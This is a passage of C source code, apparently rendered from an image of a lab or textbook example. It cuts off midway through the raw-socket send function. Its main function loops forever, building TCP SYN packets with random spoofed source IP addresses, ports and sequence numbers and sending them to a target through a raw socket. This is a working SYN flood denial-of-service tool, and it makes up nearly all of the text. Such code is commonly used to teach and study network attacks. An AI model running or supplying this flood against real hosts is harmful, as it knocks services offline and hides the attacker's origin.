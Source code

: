 ```C
void send_raw_ip_packet(struct ipheader* ip);


/******************************************************************
  Spoof a TCP SYN packet.
*******************************************************************/
int main() {
   char buffer[PACKET_LEN];
   struct ipheader *ip = (struct ipheader *) buffer;
   struct tcpheader *tcp = (struct tcpheader *) (buffer +
                                   sizeof(struct ipheader));

   srand(time(0)); // Initialize the seed for random # generation.
   while (1) {
     memset(buffer, 0, PACKET_LEN);
     /*********************************************************
        Step 1: Fill in the TCP header.
     ********************************************************/
     tcp->tcp_sport = rand(); // Use random source port
     tcp->tcp_dport = htons(DEST_PORT);
     tcp->tcp_seq   = rand(); // Use random sequence #
     tcp->tcp_offx2 = 0x50;
     tcp->tcp_flags = TH_SYN; // Enable the SYN bit
     tcp->tcp_win   = htons(20000);
     tcp->tcp_sum   = 0;

     /*********************************************************
        Step 2: Fill in the IP header.
     ********************************************************/
     ip->iph_ver = 4;   // Version (IPV4)
     ip->iph_ihl = 5;   // Header length
     ip->iph_ttl = 50;  // Time to live
     ip->iph_sourceip.s_addr = rand(); // Use a random IP address
     ip->iph_destip.s_addr = inet_addr(DEST_IP);
     ip->iph_protocol = IPPROTO_TCP; // The value is 6.
     ip->iph_len = htons(sizeof(struct ipheader) +
                         sizeof(struct tcpheader));

     // Calculate tcp checksum
     tcp->tcp_sum = calculate_tcp_checksum(ip);

     /*********************************************************
       Step 3: Finally, send the spoofed packet
     ********************************************************/
     send_raw_ip_packet(ip);
   }

   return 0;
}


/*************************************************************
  Given an IP packet, send it out using a raw socket.
**************************************************************/
void send_raw_ip_packet(struct ipheader* ip)
{
    struct sockaddr_in dest_info;
    int enable = 1;

    // Step 1: Create a raw network socket.
    int sock = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);

    // Step 2: Set socket option.
```